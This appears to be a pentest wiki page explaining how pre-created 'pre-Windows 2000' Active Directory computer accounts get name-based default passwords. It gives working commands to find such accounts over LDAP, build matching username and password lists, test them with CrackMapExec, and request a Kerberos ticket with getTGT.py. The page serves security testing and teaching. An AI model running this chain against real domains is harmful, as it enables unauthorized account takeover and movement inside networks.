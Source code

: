 # Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) for instance.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># 1. find pre-created accounts that never logged on
</strong><strong>ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&#x26;(userAccountControl=4128)(logonCount=0))' | tee results.txt
</strong>
# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
cme smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce</code></pre>

> You will see the error message **STATUS\_NOLOGON\_WORKSTATION\_TRUST\_ACCOUNT** when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

{% hint style="success" %}
Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password. ([source](https://twitter.com/filip\_dragovic/status/1524730451826511872))

```bash
getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
```

The ticket obtained can then be used with [ptt.md](../kerberos/ptt.md "mention")
{% endhint %}

## Resources

{% embed url="https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/" %}

{% embed url="https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187" %}
